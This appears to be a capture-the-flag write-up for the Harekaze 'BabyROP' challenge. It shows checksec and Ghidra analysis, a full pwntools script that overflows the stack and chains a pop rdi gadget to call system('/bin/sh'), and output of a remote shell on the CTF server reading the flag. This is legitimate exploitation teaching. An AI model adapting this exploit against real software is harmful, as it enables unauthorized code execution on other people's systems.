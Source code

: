 ## BabyROP
### Category : PWN

---

We are given a Binary File. As the name suggests, it's probably building a ROP (Return Oriented Programming) Chain. 

Using `checksec`

```
checksec babyrop                                             
[*] '/harekaze/Baby_ROP/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`NX Enabled`, so can't embed shell code. `Canary` no enabled, so can use Buffer Overflow.

Using ghidra, decompiled main.
```

undefined8 main(void)

{
  undefined local_18 [16];
  
  system("echo -n \"What\'s your name? \"");
  __isoc99_scanf(&DAT_004006c5,local_18);
  printf("Welcome to the Pwn World, %s!\n",local_18);
  return 0;
}

```

One distint is use of `system`, so we can definitely, create a ROP chain to call system. All we need is a string, something like, `/bin/bash` or `cat flag.txt` etc. 

Using ghidra, we observe the .data section and find a variable `binsh` at location `0x00601048` . We use gdb to confirm the string, and find `/bin/sh`. Booyah!, we can exploit this. 

---
### Creating the payload.
---

So, we need the offset of the buffer, a `pop rdi; ret;` gadget, location of `binsh`, and location of `system`

Using ROPGadget
```
0x0000000000400683 : pop rdi ; ret
```
Good enough!

exploit.py
```
from pwn import *

def get_offset(elf):
    io = process(elf.path)
    io.sendline(cyclic(2010))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("%#x stack", stack)
    pattern = core.read(stack, 4)
    info("%r pattern", pattern)
    offset = cyclic_find(pattern)
    info("OFFSET : %s",offset)
    return offset

elf = context.binary = ELF('babyrop')

offset = get_offset(elf)

shell = elf.symbols.binsh

system = elf.symbols.system

pop_gadget = 0x0000000000400683

info("SYSTEM : %#x" , system)
info ("SHELL : %#x", shell)
info("POP Gadget : %#x",pop_gadget)
shell = p64(shell)
system = p64(system)
pop_gadget = p64(pop_gadget)
info("SYSTEM : %s" , system)
info ("SHELL : %s", shell)
info("POP Gadget : %s",pop_gadget)

payload = 'A'*(offset)
payload += pop_gadget
payload += shell
payload += system

#io = process(elf.path)
io = remote('problem.harekaze.com',20001)
#payload = "A"*40 + gadget + print_flag + system
io.sendline(payload)
io.interactive()
```

Output
```
python2 exploit.py                                       2
[*] '/harekaze/Baby_ROP/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/harekaze/Baby_ROP/babyrop': pid 13709
[*] Process '/harekaze/Baby_ROP/babyrop' stopped with exit code -11 (SIGSEGV) (pid 13709)
[!] Found bad environment at 0x7ffdd0c8bfbb
[+] Parsing corefile...: Done
[*] '/harekaze/Baby_ROP/core.13709'
    Arch:      amd64-64-little
    RIP:       0x40061a
    RSP:       0x7ffdd0c8a4f8
    Exe:       '/harekaze/Baby_ROP/babyrop' (0x400000)
    Fault:     0x6161616861616167
[*] 0x7ffdd0c8a4f8 stack
[*] 'gaaa' pattern
[*] OFFSET : 24
[*] SYSTEM : 0x40048c
[*] SHELL : 0x601048
[*] POP Gadget : 0x400683
[*] SYSTEM : \x8c\x04@\x00\x00\x00\x00\x00
[*] SHELL : H\x10`\x00\x00\x00\x00\x00
[*] POP Gadget : \x83\x06@\x00\x00\x00\x00\x00
[+] Opening connection to problem.harekaze.com on port 20001: Done
[*] Switching to interactive mode
What's your name? $ whoami
babyrop
$ cd /home/babyrop
$ cat flag
HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}
$ exit
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to problem.harekaze.com port 20001
[*] Got EOF while sending in interactive
```

For More Explanation of ROP Chaining, check out my writeups of [ROP Emporium](../ROP_Emporium.md)